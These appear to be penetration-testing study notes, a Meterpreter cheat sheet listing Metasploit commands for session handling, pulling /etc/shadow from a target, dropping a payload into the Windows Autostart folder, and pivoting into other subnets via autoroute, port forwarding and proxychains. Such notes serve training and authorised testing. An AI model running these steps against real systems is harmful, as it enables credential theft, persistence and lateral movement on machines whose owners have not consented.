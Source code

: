 
<br />

## METERPRETER
## Info
### Advantages
1. Works inside RAM
2. Utilizes Covert Channels (legitimate processes)
3. Encrypted communication possible (effective against IPS/IDS)
4. Staged payloads possible

## HowTo
### Basics
- `help`: command overview
- During session: Strg+Z / background --> create background session
- `sessions -l`: show existing sessions
- `sessions -u [session ID]`: upgrade to meterpreter session
- `sessions -i 2`: switch to session 2
- `download`: download from target onto local system (exp: /etc/shadow)
- `edit [file]`: open vim on target 

### Advanced Features 
#### Upload Payload (via meterpeter)
- via meterpreter session: `cd C:\ProgramData\Microsoft\Windows\Start Menu\Programme\Autostart`
- verify with "meterpreter pwd" the correct path on target
- upload [path/to/payload/on/kali]

#### Ping Sweep: 
- Detect hosts in subnet2 via target machine in subnet1 (that has access to subnet2)
   - msf: `use post/multi/gather/ping_sweep`
   - `set rhost [IPv4]` (IPv4 from subnet2 like 10.1.0.0/24)
   - `set session [id]` (use id from target in subnet1)
- Alternative: `use auxiliary/scanner/portscan/tcp` + specify ports

#### Remote TCP scanner
1. msf: `use auxiliary/scanner/portscan/tcp` & set ports + rhost
2. Because it's "auxiliary" and not "post", you need to set up a route beforehand
3. msf: `route add [target in subnet] [sessionid]` (Exp: route add 10.1.0.7 1)
4. Alternative via meterpreter session: `run autoroute -s [target in subnet]`
5. These routes are only effective inside mp session (!)
6. For the usage outside of meterpreter session you need to set up portforwarding
7. Meterpreter session: `portfwd add -l 80 -p 80 -r [target in subnet]`

#### Proxychains:

*Route tools' web traffic through socks proxy to target2 w/o portforwading (!)*

1. Meterpreter: have existing session to target1 & put session into background
2. msf: `use auxiliary/server/socks_proxy` & setup socks4a(127.0.0.1:123) & `run` & `jobs`
3. Meterpreter: `add autoroute -s [IPv4]` (IPv4 = target2 IP in subnet)
4. msf: `route print` (check routing table)
5. Kali Browser: set up socks proxy (127.0.0.1:123) (now you can browse on target2 machine)
6. `nano /etc/proxychains.conf`: add `socks 127.0.0.1 123` at the end of file
7. Kali CLI: `proxychains [command] [IPv4]` (target2 IP in subnet)
